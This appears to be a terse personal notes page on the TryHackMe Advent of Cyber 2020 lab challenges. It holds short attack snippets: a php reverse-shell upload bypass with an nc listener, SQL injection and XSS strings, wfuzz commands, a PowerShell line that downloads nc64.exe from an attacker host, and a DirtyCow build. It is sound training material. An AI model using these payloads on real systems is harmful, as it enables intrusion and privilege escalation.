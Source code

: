 ```yaml
---
title: (N)(THM)Advent of Cyber 2020
published: true
---
```


### [Day 1] Web Exploitation A Christmas Crisis

cookies modify

### [Day 2] Web Exploitation The Elf Strikes Back!

File upload bypass filter 
php rev shell => only pic allowed -> file.jpg.php 

file | accepted file format | execuable
 root nc -lvnp port
 
 ### [Day 3] Web Exploitation Christmas Chaos
 
 burpsuite credentials testing
 
 one thing -> sniper 
 more -> cluster bomb
 
 ### [Day 4] Web Exploitation Santa's watching
 
 fuzzing with wfuzz or gobuster
 
```shell
 sudo wfuzz -c -z file,/home/kali/Documents/thm/25_days_of_cyber_security/day4/wordlist.txt -u http://10.10.182.221/api/site-log.php?date=FUZZ
```

```shell
wfuzz -c -z file,big.txt -d "breed=FUZZ" -u http://shibes.xyz/api.php
```

###  [Day 5] Web Exploitation Someone stole Santa's gift list!

SQL injection 
user : asdf'
pwd or 1=1 --

### [Day 6] Web Exploitation Be careful with what you wish on a Christmas night

OWASP ZAP automate XSS scan
```html
<img src='LINK' onmouseover="alert('xss')">
```

```javascript
> <script> evilcode() </script>
```

```url
IP_ADDRES/reflected?keyword=<script>alert(1)</script>
```

### [Day 7] Networking The Grinch Really Did Steal Christmas

wireshark 

```wireshrak
filter http.request.method==GET
```
### [Day 8] Networking What's Under the Christmas Tree?

nmap 

### [Day 9] Networking Anyone can be Santa!

ftp anonymous login allowed -> able to found \*.sh file that we  get and put we able to add reverse shell 

### [Day 10] Networking Don't be sElfish!

Samba discover enum4linux -> know username and shares try login with ->
possible weak password

### [Day 11] - The Rogue Gnome: Prelude

```shell
python3 -m http.server 8080
```

[GTFObins](https://gtfobins.github.io/) 

### [Day 12] Networking Ready, set, elf.

Windows PrivEsc:
```powershell
Invoke-WebRequest "http://10.9.158.252:9999/nc64.exe" -OutFile "nc64.exe"
``` 
-	powershell
-	WinPeas
-	powerup.ps1

### [Day 13] Networking Coal for Christmas
DirtyCow
```shell
gcc -pthread dirty.c -o dirty -lcrypt
```

### [Day 14] OSINT Where's Rudolph?

OSINT

###  [Day 15] Scripting There's a Python in my stocking!
python scripting

### [Day 16] Scripting Help! Where is Santa?
python api endpoint fuzzing

### [Day 17] Reverse Engineering ReverseELFneering
[radare2](https://github.com/radareorg/radare2)

### [Day 18] Reverse Engineering The Bits of Christmas
ILSpy

### [Day 19] Special by Tib3rius The Naughty or Nice List
Server-Side Request Forgery

### [Day 20] Blue Teaming PowershELlF to the rescue
powershell

### [Day 21] Blue Teaming Time for some ELForensics
powershell

### [Day 22] Blue Teaming Elf McEager becomes CyberElf
cyberchef

### [Day 23] Blue Teaming The Grinch strikes again!
windows

### [Day 24] Special by DarkStar The Trial Before Christmas
